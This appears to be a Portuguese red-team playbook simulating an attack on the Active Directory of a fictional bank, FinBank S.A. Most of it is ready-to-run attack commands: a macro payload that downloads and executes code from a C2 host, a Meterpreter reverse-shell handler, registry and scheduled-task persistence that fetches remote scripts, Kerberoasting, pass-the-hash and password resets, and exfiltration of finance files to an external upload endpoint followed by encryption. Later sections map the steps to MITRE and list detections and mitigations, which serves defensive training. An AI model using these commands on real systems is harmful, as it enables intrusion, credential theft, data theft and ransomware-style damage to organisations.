

# Red Team Simulation Playbook — Cenário Financeiro

**Empresa fictícia:** FinBank S.A.  
**Objetivo:** Simular ataque real a infraestrutura AD para avaliar resposta a ameaças e impacto potencial.  

---

## Índice
- [1. Objetivo de Negócio](#1-objetivo-de-negócio-impacto-simulado)
- [2. Acesso Inicial](#2-acesso-inicial--phishing-direcionado)
- [3. Execução e Persistência](#3-execução-e-persistência)
- [4. Movimento Lateral e Coleta](#4-movimento-lateral-e-coleta)
- [5. Exfiltração / Impacto](#5-exfiltração--impacto)
- [6. Detecção, Contenção e Mitigação](#6-detecção-contenção-e-mitigação)
- [7. Mapeamento MITRE ATT&CK](#7-mapeamento-mitre-attck)
- [8. Controles Compensatórios](#8-controles-compensatórios)
- [9. Conclusão](#9-conclusão)
- [10. Referências Externas](#10-referências-externas)

---

## 1. Objetivo de Negócio (Impacto Simulado)
- Avaliar a postura defensiva contra ataques avançados de **comprometimento de AD**.  
- Testar capacidade de detecção e resposta em incidentes de **ransomware + exfiltração**.  
- Impacto simulado:
    - Indisponibilidade de serviços financeiros online.
    - Vazamento de dados bancários e credenciais.
    - Multas regulatórias (LGPD/GDPR) e prejuízo reputacional.

---

## Fluxo do Ataque (Mermaid Diagram)

---

## 2. Acesso Inicial – **Phishing Direcionado**
Vetor: e-mail com anexo malicioso ou link falso.  
Comandos simulados:
```bash
macro_pack.exe --template=word --payload="powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')" --obfuscate

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 10.10.10.5
set LPORT 443
run
```

**MITRE ATT&CK:** T1566.001 (Phishing Attachment), T1059 (PowerShell).

---

## 3. Execução e Persistência
Execução in-memory + persistência via registro e tarefas agendadas:
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OneDriveUpdate /t REG_SZ /d "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/loader.ps1')" /f

schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/update.ps1')" /sc minute /mo 30
```

**MITRE ATT&CK:** T1547.001 (Registry), T1053.005 (Scheduled Task).

---

## 4. Movimento Lateral e Coleta
Enumeração e exploração:
```powershell
Get-ADUser -Filter * -Properties ServicePrincipalName | select Name, ServicePrincipalName
net group "Domain Admins" /domain

Invoke-Kerberoast
GetUserSPNs.py finbank.local/user:password -dc-ip 10.10.10.10 -request

crackmapexec smb 10.10.10.10 -u admin -H <NTLMHASH>
rpcclient -U user%pass 10.10.10.10
setuserinfo2 targetuser 23 "NovaSenha123!"
```

**MITRE:** T1087.002 (Account Discovery), T1558.003 (Kerberoasting), T1021.001 (SMB).

---

## 5. Exfiltração / Impacto
Compressão e upload simulado:
```powershell
Compress-Archive -Path C:\finance\dados\* -DestinationPath C:\Users\Public\relatorio.zip
Invoke-WebRequest -Uri "https://external-storage.com/upload" -Method POST -InFile "C:\Users\Public\relatorio.zip"
cipher /e C:\finance\dados
```

**MITRE:** T1041 (Exfil over C2), T1486 (Data Encrypted for Impact).

---

## 6. Detecção, Contenção e Mitigação
| Fase            | Detecção                                        | Mitigação                                             |
|-----------------|------------------------------------------------|------------------------------------------------------|
| Acesso Inicial  | Logs EDR, sandbox                              | MFA, bloquear macros, simulações de phishing        |
| Execução        | Logs PowerShell (4104), AMSI                   | AppLocker, WDAC                                      |
| Movimento       | Eventos 4624, 4768, LDAP massivo              | Restringir ACLs, AES-Only, monitorar queries         |
| Exfiltração     | DLP, análise proxy                             | TLS inspection, bloquear uploads externos            |

---

## 7. Mapeamento MITRE ATT&CK
| Tática               | Técnicas                                      |
|----------------------|----------------------------------------------|
| Initial Access       | T1566.001 (Phishing)                        |
| Execution            | T1059 (PowerShell)                          |
| Persistence          | T1547.001 (Registry), T1053.005 (Tasks)     |
| Privilege Escalation | T1558.003 (Kerberoasting), Abuse of ACLs    |
| Lateral Movement     | T1021.001 (SMB/WinRM), Pass-the-Hash        |
| Collection           | T1087.002 (AD Enumeration)                  |
| Exfiltration         | T1041 (Exfiltration over C2)                |
| Impact               | T1486 (Data Encrypted for Impact)           |

---

## 8. Controles Compensatórios
- Proteção contra phishing (SPF/DKIM, sandbox, simulações).
- Hardening AD: AES-Only, Protected Users, segmentação de redes.
- Bloqueio de movimento lateral: restrição SMB, EDR, monitor Kerberos.
- SIEM com alertas para TTPs MITRE e honeypots para detecção de abuso.

---

## 9. Conclusão
Este exercício demonstra como um ataque direcionado pode comprometer **AD, dados sensíveis e operações críticas** de uma instituição financeira.  
**Riscos corporativos identificados:**
- Perdas financeiras diretas por indisponibilidade e fraudes.
- Vazamento de dados que impactam compliance e reputação.
- Persistência furtiva, tornando a remediação mais cara e demorada.

**Lições aprendidas:** A importância de um programa contínuo de **segurança ofensiva + monitoramento defensivo** para reduzir janela de exposição.

---

## 10. Referências Externas
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Microsoft Securing Active Directory](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices)
- [NIST SP 800-61 Rev. 2 - Computer Security Incident Handling Guide](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-61r2.pdf)
- [CIS Controls v8](https://www.cisecurity.org/controls/cis-controls-list)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Red Team OPSEC Guide](https://redteam.guide/)
- [SANS Incident Response Resources](https://www.sans.org/incident-response/)

---
